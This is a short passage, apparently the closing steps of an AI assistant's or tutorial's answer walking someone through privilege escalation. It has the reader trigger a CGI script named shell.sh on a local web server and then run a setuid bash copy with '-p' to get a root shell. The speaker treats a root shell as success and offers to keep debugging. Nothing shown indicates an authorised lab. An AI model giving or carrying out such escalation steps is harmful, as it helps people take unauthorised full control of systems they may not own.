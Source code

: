
## 🔁 Final Test

Once everything checks out, try again:

```bash
curl http://127.0.0.1:9999/cgi-bin/shell.sh
```

Then:

```bash
/tmp/rootbash -p
```

---

## ✅ Success?

If that gives you a root shell, you’re good to go!

If you still get a 500 error, **paste the contents of** `/tmp/hackroot/logs/error_log` and I’ll help you dig into it.
